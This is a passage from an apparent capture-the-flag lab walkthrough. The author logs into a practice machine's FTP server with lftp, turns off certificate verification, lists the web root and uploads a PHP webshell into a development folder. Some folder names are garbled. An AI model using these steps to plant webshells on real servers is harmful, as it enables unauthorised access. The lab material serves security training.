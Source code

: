It created my account!

### FTP

Trying to connect fails because encryption is required:



    root@kali# ftp ftp.crossfit.htb
    Connected to gym-club.crossfit.htb.
    220 Cross Fit Ltd. FTP Server
    Name (ftp.crossfit.htb:root): 0xdf
    530 Non-anonymous sessions must use encryption.
    Login failed.
    421 Service not available, remote server has closed connection



The `ftp` client on standard Linux distributions doesn't have that
option. I'll install `lftp` (`apt install lftp`) and run it:



    root@kali# lftp ftp.crossfit.htb -u 0xdf
    Password: 
    lftp 0xdf@ftp.crossfit.htb:~> ls                     
    ls: Fatal error: Certificate verification: Not trusted (25:EC:D2:FE:6C:9D:77:04:EC:7D:D7:92:87:67:4B:C3:8D:0E:CB:CE)



That is fixed by setting the SSL verification to false:



    lftp 0xdf@ftp.crossfit.htb:~> set ssl:verify-certificate false



Now I can list the FTP root:



    lftp 0xdf@ftp.crossfit.htb:~> ls
    drwxrwxr-x    2 33       1002         4096 Sep 21 09:45 development-test
    drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
    drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
    drwxr-xr-x    2 0        0            4096 May 01  2020.md



It looks like I'm in `/var/www`, where .md` is the folder with the
Apache default, `ftp` is the site I registered this account on, and
`gym-club` is the main page. `development-test` is a new one.

### Webshell

I'll upload a webshell over FTP:



    lftp 0xdf@ftp.crossfit.htb:/development-test> put /opt/shells/php/cmd.php
    35 bytes transferred                                           
    lftp 0xdf@ftp.crossfit.htb:/development-test> ls
    -rw-r--r--    1 1002     1002           35 Jan 26 18:39 cmd.php
